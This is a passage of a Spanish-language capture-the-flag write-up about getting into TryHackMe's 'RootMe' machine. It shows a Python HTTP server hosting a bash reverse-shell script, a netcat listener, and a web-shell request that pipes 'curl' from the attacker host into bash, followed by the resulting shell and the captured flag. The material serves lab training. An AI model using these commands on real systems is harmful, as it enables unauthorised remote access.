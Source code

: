 ```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Este servidor http, estará corriendo en la misma carpeta donde tenemos nuestro archivo bash, le pondremos el nombre de **index.html**, debido a que si se le realiza una petición http a algún servidor, por defecto va a apuntar al archivo index.html, no importa que no sea un archivo html, lo que nos interesa es que la máquina víctima tenga acceso a este recurso.

Lo último corresponde a nuestro listener, el cual será netcat, estaremos escuchando cualquier conexión entrante para el puerto 1234:

```
nc -nvlp 1234
listening on [any] 1234 ...
```

Con todo lo anterior listo en nuestro equipo de atacante, vamos a proceder a realizar la petición http desde el servidor web, al momento que la máquina obtenga el index.html, haremos que ese output, es decir, la conexión bash interactiva hacia nuestra máquina, sea interpretada con bash, para que la máquina víctima ejecute esa instrucción y ganemos acceso:

```
http://10.10.22.79/uploads/shell.phar?cmd=curl 10.18.87.177 | bash
```

Al darle al enter, vamos a ver que ha llegado una petición a nuestro servidor http:
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.22.79 - - [18/Mar/2023 17:16:39] "GET / HTTP/1.1" 200 -
```

Por lo tanto, si vemos nuestro netcat:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.87.177] from (UNKNOWN) [10.10.22.79] 51626
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ whoami
whoami
www-data
```

Bien, hemos ganado acceso a la máquina.

De paso, encontramos la flag y somos capaces de leerla:

```
www-data@rootme:/var/www$ cat user.txt
cat user.txt
THM{*******}
```

## Escalada de privilegios
